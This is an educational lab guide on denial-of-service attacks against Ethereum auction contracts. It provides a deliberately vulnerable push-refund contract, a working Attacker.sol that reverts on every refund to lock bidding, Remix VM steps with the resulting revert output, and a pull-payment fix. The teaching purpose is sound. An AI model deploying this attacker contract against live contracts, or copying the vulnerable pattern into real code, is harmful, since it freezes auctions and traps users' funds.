




# Smart Contract Security: Denial of Service (DoS) via Unexpected Revert

A complete educational manual, architectural specification, and hands-on laboratory guide for demonstrating Denial of Service attacks in Ethereum smart contracts using Remix IDE.

---

## Table of Contents

1. [Core Concepts: What is a Smart Contract DoS?](https://www.google.com/search?q=%231-core-concepts-what-is-a-smart-contract-dos)
2. [The Vulnerability: Push vs. Pull Payments](https://www.google.com/search?q=%232-the-vulnerability-push-vs-pull-payments)
3. [Visualizing Attack & Defense (Mermaid Diagrams)](https://www.google.com/search?q=%233-visualizing-attack--defense-mermaid-diagrams)
* [3.1 Push Payment Failure Sequence](https://www.google.com/search?q=%2331-push-payment-failure-sequence)
* [3.2 Pull Payment Resolution Sequence](https://www.google.com/search?q=%2332-pull-payment-resolution-sequence)
* [3.3 EVM Call Stack & Revert Flow](https://www.google.com/search?q=%2333-evm-call-stack--revert-flow)


4. [Source Code Implementation](https://www.google.com/search?q=%234-source-code-implementation)
* [4.1 VulnerableAuction.sol](https://www.google.com/search?q=%2341-vulnerableauctionsol)
* [4.2 Attacker.sol](https://www.google.com/search?q=%2342-attackersol)
* [4.3 SecureAuction.sol](https://www.google.com/search?q=%2343-secureauctionsol)


5. [Complete Hands-On Remix IDE Lab Guide](https://www.google.com/search?q=%235-complete-hands-on-remix-ide-lab-guide)
* [Step 1: Remix IDE Workspace & Compiler Setup](https://www.google.com/search?q=%23step-1-remix-ide-workspace--compiler-setup)
* [Step 2: Deploying the Vulnerable Target](https://www.google.com/search?q=%23step-2-deploying-the-vulnerable-target)
* [Step 3: Student A Places a Legitimate Bid](https://www.google.com/search?q=%23step-3-student-a-places-a-legitimate-bid)
* [Step 4: The Attacker Exploit Contract Enters](https://www.google.com/search?q=%23step-4-the-attacker-exploit-contract-enters)
* [Step 5: Verifying the Denial of Service (The Lockout)](https://www.google.com/search?q=%23step-5-verifying-the-denial-of-service-the-lockout)
* [Step 6: Deploying & Verifying the Secure Fix](https://www.google.com/search?q=%23step-6-deploying--verifying-the-secure-fix)


6. [Why Did It Revert? Deep Dive into the EVM](https://www.google.com/search?q=%236-why-did-it-revert-deep-dive-into-the-evm)
7. [Summary & Best Practices](https://www.google.com/search?q=%237-summary--best-practices)

---

## 1. Core Concepts: What is a Smart Contract DoS?

In traditional web infrastructure, a **Denial of Service (DoS)** attack typically entails flooding a server with high volumes of traffic until network bandwidth saturates or hardware crashes.

In smart contract architecture, **DoS operates on code logic and execution rules**:

* A smart contract cannot physically crash; its bytecode executes deterministically across all nodes on the blockchain network.
* If an essential operation within a transaction reverts or runs out of gas, the Ethereum Virtual Machine (EVM) **reverts the entire transaction**.
* If an attacker crafts a contract state where a required step permanently reverts for all subsequent users, the contract is rendered completely frozen.

---

## 2. The Vulnerability: Push vs. Pull Payments

| Design Pattern | Mechanism | Security Posture |
| --- | --- | --- |
| **Push Payment (Anti-pattern)** | The contract automatically forwards native ETH to an external address during the execution of a primary business action (`bid()`). | **Vulnerable.** If the recipient address is a smart contract programmed to revert on transfer, the caller's entire transaction fails. |
| **Pull Payment (Industry Standard)** | The contract modifies an internal balance accounting mapping. Users independently call an isolated function (`withdraw()`) to claim their funds. | **Secure.** A malicious recipient can only block their own withdrawal; core contract operations remain open to everyone else. |

---

## 3. Visualizing Attack & Defense (Mermaid Diagrams)

### 3.1 Push Payment Failure Sequence

When Student B attempts to place a new bid, the auction contract executes an external call to refund the Attacker. The Attacker's fallback function deliberately reverts, which cascades and cancels Student B's bid.



---

### 3.2 Pull Payment Resolution Sequence

Under the Pull pattern, bidding only updates internal storage mappings. All external value transfers are completely isolated into individual withdrawals.



---

### 3.3 EVM Call Stack & Revert Flow

This flowchart details how the EVM enforces atomicity across the call boundary when an external sub-call fails.



---

## 4. Source Code Implementation

Create three separate files in your Remix IDE workspace:

### 4.1 `VulnerableAuction.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract VulnerableAuction {
    address public highestBidder;
    uint256 public highestBid;

    function bid() external payable {
        require(msg.value > highestBid, "Bid too low");

        // VULNERABILITY (Push Payment):
        // Automatically refunding the previous bidder during bid execution.
        // If highestBidder rejects the transfer, the entire bid() function reverts!
        if (highestBidder != address(0)) {
            (bool success, ) = payable(highestBidder).call{value: highestBid}("");
            require(success, "Refund failed");
        }

        highestBidder = msg.sender;
        highestBid = msg.value;
    }
}

```

---

### 4.2 `Attacker.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IAuction {
    function bid() external payable;
}

contract Attacker {
    // 1. Enter the target auction and take the highestBidder spot
    function attack(address _target) external payable {
        IAuction(_target).bid{value: msg.value}();
    }

    // 2. Reject all incoming ETH transfers.
    // Whenever an external contract attempts to send ETH here, this reverts.
    receive() external payable {
        revert("DoS Attack: I refuse refunds! Auction is permanently locked.");
    }
}

```

---

### 4.3 `SecureAuction.sol`

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

contract SecureAuction {
    address public highestBidder;
    uint256 public highestBid;

    // Internal accounting ledger: tracks refund credits per address
    mapping(address => uint256) public pendingReturns;

    function bid() external payable {
        require(msg.value > highestBid, "Bid too low");

        // SECURE (Pull Pattern):
        // Record the refund in storage. Zero external calls!
        if (highestBidder != address(0)) {
            pendingReturns[highestBidder] += highestBid;
        }

        highestBidder = msg.sender;
        highestBid = msg.value;
    }

    // Independent withdrawal function: users claim their own funds
    function withdraw() external {
        uint256 amount = pendingReturns[msg.sender];
        require(amount > 0, "No funds to withdraw");

        // Checks-Effects-Interactions: clear balance before sending ETH
        pendingReturns[msg.sender] = 0;

        (bool success, ) = payable(msg.sender).call{value: amount}("");
        require(success, "Withdrawal failed");
    }
}

```

---

## 5. Complete Hands-On Remix IDE Lab Guide

This section is a complete, beginner-friendly walkthrough built for instructors and students to execute the exploit and verify the defense directly inside [Remix IDE (remix.ethereum.org)](https://remix.ethereum.org) without needing command-line tools or external installations.

### Understanding the Remix IDE Interface

Before executing transactions, note the three key tabs on the left navigation bar:

* **File Explorer (Folder icon):** Where files are created and managed.
* **Solidity Compiler (Solidity logo icon):** Where code is compiled into EVM bytecode.
* **Deploy & Run Transactions (Ethereum logo with arrow):** Where accounts, environments, and contract interactions are configured.

---

### Step 1: Remix IDE Workspace & Compiler Setup

1. Open [Remix IDE](https://remix.ethereum.org) in your web browser.
2. In the **File Explorer**, expand the `contracts/` directory (or click the **New File** icon next to the workspace name).
3. Create three distinct files and paste their respective code:
* `VulnerableAuction.sol`
* `Attacker.sol`
* `SecureAuction.sol`


4. Click on the **Solidity Compiler** tab on the left sidebar:
* Verify the **Compiler** version dropdown is set to `0.8.20` or higher (e.g., `0.8.26`).
* Click **Compile VulnerableAuction.sol** (or press `Ctrl+S` / `Cmd+S` while viewing the file).
* Compile `Attacker.sol` and `SecureAuction.sol` as well. A green checkmark will appear on the compiler icon when compilation succeeds.


---

### Step 2: Deploying the Vulnerable Target

1. Navigate to the **Deploy & Run Transactions** tab on the left sidebar.
2. Set the **Environment** dropdown to `Remix VM (Cancun)` (or any available Remix VM fork).
3. Select **Account 1** (the first account in the **Account** dropdown list, e.g., `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4`, which starts with 100 ETH).
4. Set the **Contract** dropdown to `VulnerableAuction - contracts/VulnerableAuction.sol`.
5. Click the orange **Deploy** button.
6. Scroll down to the **Deployed Contracts** section at the bottom-left. Click the small right-facing arrow next to `VULNERABLEAUCTION` to expand its interactive buttons:
* **Red/Orange button:** `bid` (writes state and accepts native ETH).
* **Blue buttons:** `highestBidder` and `highestBid` (read-only calls).


---

### Step 3: Student A Places a Legitimate Bid

1. Ensure **Account 1** (`0x5B3...`) is still selected in the **Account** dropdown.
2. In the **Value** input field above the Contract dropdown:
* Type `1` in the number box.
* Change the unit dropdown from `Wei` to **`Ether`**.


3. Click the red/orange **`bid`** button under `VULNERABLEAUCTION`.
4. **Inspect the State:**
* Click the blue **`highestBidder`** button: the address returned is `0x5B38Da6a701c568545dCfcB03FcB875f56beddC4` (Account 1).
* Click the blue **`highestBid`** button: the value returned is `1000000000000000000` (1 ETH in Wei).
* Account 1's balance in the Account dropdown is now ~98.99 ETH (1 ETH bid + negligible gas fee).


---

### Step 4: The Attacker Exploit Contract Enters

1. Switch to **Account 2** in the **Account** dropdown (e.g., `0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2`).
2. Set the **Contract** dropdown to `Attacker - contracts/Attacker.sol`.
3. Click the orange **Deploy** button.
4. Under **Deployed Contracts**, you will now see two contracts. Expand the new **`ATTACKER`** contract.
5. **Copy the Target Address:**
* In the `VULNERABLEAUCTION` section, click the small **Copy** icon next to its contract name to copy its deployed address to your clipboard.


6. **Configure the Exploit:**
* In the expanded `ATTACKER` contract panel, paste that copied address into the `_target` input field next to the `attack` button.
* Scroll up to the **Value** field: enter `2` and select **`Ether`**.


7. Click the red/orange **`attack`** button.
8. **Verify the Hijack:**
* Under `VULNERABLEAUCTION`, click **`highestBidder`**. Notice the address has changed to the **address of the `Attacker` contract**, not an EOA.
* Click **`highestBid`**: it now reads `2000000000000000000` (2 ETH in Wei).
* Check **Account 1**: Notice Account 1 was automatically refunded their 1 ETH and their balance is back to ~99.99 ETH. Everything appears to work normally—until the next user steps in.


---

### Step 5: Verifying the Denial of Service (The Lockout)

1. Switch to **Account 3** in the **Account** dropdown (e.g., `0x4B20993Bc481177ec7E8f571ceCaE8A9e22C02db`).
2. Scroll to the **Value** field: enter `3` and select **`Ether`**.
3. In the deployed `VULNERABLEAUCTION` panel, click the red/orange **`bid`** button.
4. **Observe the Failure:**
* The transaction **fails immediately** and does not execute.
* Open the Remix bottom console terminal. You will see a red cross and the following error:
```text
transact to VulnerableAuction.bid errored: VM error: revert.
revert: DoS Attack: I refuse refunds! Auction is permanently locked.

```


* Click the blue **`highestBidder`** button on `VULNERABLEAUCTION`. It **remains the Attacker contract**.
* Even if a user bids 100 ETH, the transaction will consistently revert. The contract is permanently locked.


---

### Step 6: Deploying & Verifying the Secure Fix

Now prove to the students how the Pull-over-Push pattern completely neutralizes this attack:

1. In the **Contract** dropdown, select `SecureAuction - contracts/SecureAuction.sol`.
2. Using **Account 1**: Click **Deploy**. Expand the new `SECUREAUCTION` panel.
3. **Account 1 Bids:**
* Set **Value** to `1 Ether`.
* Click `bid` on `SECUREAUCTION`. (`highestBidder` is now Account 1).


4. **Attacker Bids via Exploit Contract:**
* Copy the contract address of `SECUREAUCTION`.
* Switch to **Account 2**.
* In the existing `ATTACKER` contract panel, paste the `SECUREAUCTION` address into the `_target` field.
* Set **Value** to `2 Ether`.
* Click `attack`.
* Click `highestBidder` on `SECUREAUCTION`: it is now the `Attacker` contract.


5. **Account 3 Bids (Defense Verification):**
* Switch to **Account 3**.
* Set **Value** to `3 Ether`.
* Click `bid` on `SECUREAUCTION`.
* **Result:** The transaction **succeeds**!
* Click `highestBidder`: Account 3 is now the active leader. The contract did not freeze.


6. **Verify Isolated Withdrawal:**
* Switch back to **Account 1**.
* In `SECUREAUCTION`, paste Account 1's address into the `pendingReturns` field and click the blue button. It returns `1000000000000000000` (1 ETH).
* Click the orange **`withdraw`** button.
* Account 1's balance immediately receives the 1 ETH refund.
* If the `Attacker` contract attempts to call `withdraw`, its own `receive()` will reject it, but the failure remains strictly confined to the attacker.


---

## 6. Why Did It Revert? Deep Dive into the EVM



1. **EOAs vs. Smart Contracts:** An Externally Owned Account (EOA) has no contract code; it accepts incoming native ETH unconditionally as long as gas limits are satisfied. Smart contracts execute custom fallback logic whenever they receive funds.
2. **Transaction Atomicity:** EVM transactions are all-or-nothing. If an internal sub-call reverts and the calling contract requires that sub-call to succeed via `require(success)`, the entire execution state is rolled back.
3. **Control Inversion Risk:** Coupling external payments directly into state-changing functions relinquishes execution control to an untrusted external party.

---

## 7. Summary & Best Practices

1. **Favor Pull Over Push for Payments:** Never transmit native currency to arbitrary addresses inside core operations. Maintain an internal ledger (`mapping(address => uint256)`) and let users withdraw their own funds individually.
2. **Follow Checks-Effects-Interactions (CEI):** In any withdrawal routine, zero out the caller's recorded balance (`effects`) *before* executing the transfer (`interactions`) to guard against reentrancy attacks.
3. **Isolate Failure Domains:** When interacting with untrusted external contracts, assume the call can fail, consume all forwarded gas, or revert. A single external party's failure should never be capable of halting the contract for others.